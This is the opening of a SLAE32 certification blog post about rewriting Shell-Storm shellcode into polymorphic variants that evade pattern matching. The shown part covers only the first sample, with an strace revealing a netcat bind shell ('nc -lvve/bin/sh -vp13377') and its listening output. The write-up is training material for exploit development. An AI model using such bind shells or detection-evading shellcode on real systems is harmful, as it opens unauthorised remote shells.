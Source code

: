 ```yaml
---
title: "SLAE32: Creating polymorphic versions of existing shellcode"
author: Travis Mathison
date: 2018-01-21 12:00:00 +0800
categories: [SLAE32]
tags: [assembly, x86, penetration-testing, hacking, exploit-development, shellcode, slae32]
---
```


### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #6

---

## Description
* Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger than 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Shellcode 1: shellcode-804.php
Location: [http://shell-storm.org/shellcode/files/shellcode-804.php](http://shell-storm.org/shellcode/files/shellcode-804.php)<br/>

### What it does
If we run the shellcode with strace we can see the command it ends up executing. In the case of this executable it runs "/bin//////nc -lvve/bin/sh -vp13377". All of the text for these commands are pushed onto the stack and the registers are loaded up with pointers to the stack with their locations.
```
[sengen@manjaro-x86 assignment6]$ strace -e execve ./shellcode-804
execve("./shellcode-804", ["./shellcode-804"], 0xbfa21108 /* 55 vars */) = 0
execve("/bin//////nc", ["/bin//////nc", "-lvve/bin/sh", "-vp13377\1"], NULL) = 0
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: CB02 CE67 7AE9 8A2B 64F0 6EA5 82B2 DE8B 869D 365C
NCAT DEBUG: Initialized fdlist with 103 maxfds
Ncat: Listening on :::13377
NCAT DEBUG: Added fd 3 to list, nfds 1, maxfd 3
Ncat: Listening on 0.0.0.0:13377
NCAT DEBUG: Added fd 4 to list, nfds 2, maxfd 4
NCAT DEBUG: Added fd 0 to list, nfds 3, maxfd 4
NCAT DEBUG: Initialized fdlist with 100 maxfds
NCAT DEBUG: selecting, fdmax 4
```
